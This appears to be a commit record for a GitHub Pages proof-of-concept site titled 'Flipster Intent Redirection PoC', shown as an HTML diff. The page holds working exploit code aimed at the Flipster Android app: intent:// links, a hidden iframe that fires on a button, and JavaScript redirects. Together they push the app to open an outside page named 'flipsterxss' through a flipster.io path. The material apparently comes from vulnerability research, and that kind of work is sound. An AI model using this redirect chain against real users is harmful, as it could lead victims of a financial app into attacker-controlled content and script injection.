

Before and after one commit to xaleraf4ra/test-poc.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,26 +1,31 @@
 <!DOCTYPE html>
 <html>
-<head><title>Flipster PoC</title></head>
+<head>
+    <title>Flipster PoC</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1">
+</head>
 <body>
     <h2>Flipster Intent Redirection PoC</h2>
-
-    <a href="https://flipster.io/https://xaleraf4ra.github.io/test-poc.github.io/">
-        Open via direct link
-    </a>
-
-    <br><br>
-
-    <a href="intent://flipster.io/https://xaleraf4ra.github.io/test-poc.github.io/#Intent;scheme=https;package=com.prestolabs.android.prex;component=com.prestolabs.android.prex/.presentations.ui.MainActivity;action=android.intent.action.VIEW;end">
-        Open via Intent scheme
-    </a>
-
-    <br><br>
-
-    <button onclick="openApp()">Open via JS redirect</button>
-
+    <p><a href="https://flipster.io/https://xaleraf4ra.github.io/flipsterxss/">
+        1. Direct HTTPS link
+    </a></p>
+    <p><button onclick="tryIntent()">2. Open via Intent</button></p>
+    <p><button onclick="autoOpen()">3. Auto-redirect</button></p>
     <script>
-    function openApp() {
-        window.location = "intent://flipster.io/https://xaleraf4ra.github.io/test-poc.github.io/#Intent;scheme=https;package=com.prestolabs.android.prex;component=com.prestolabs.android.prex/.presentations.ui.MainActivity;action=android.intent.action.VIEW;end";
+    function tryIntent() {
+        var w = window.open("https://flipster.io/https://xaleraf4ra.github.io/flipsterxss/", "_blank");
+        if (!w) {
+            window.location.href = "https://flipster.io/https://xaleraf4ra.github.io/flipsterxss/";
+        }
+    }
+    function autoOpen() {
+        var iframe = document.createElement("iframe");
+        iframe.style.display = "none";
+        iframe.src = "intent://flipster.io/https://xaleraf4ra.github.io/flipsterxss/#Intent;scheme=https;package=com.prestolabs.android.prex;end";
+        document.body.appendChild(iframe);
+        setTimeout(function() {
+            window.location.href = "https://flipster.io/https://xaleraf4ra.github.io/flipsterxss/";
+        }, 2000);
     }
     </script>
 </body>
```
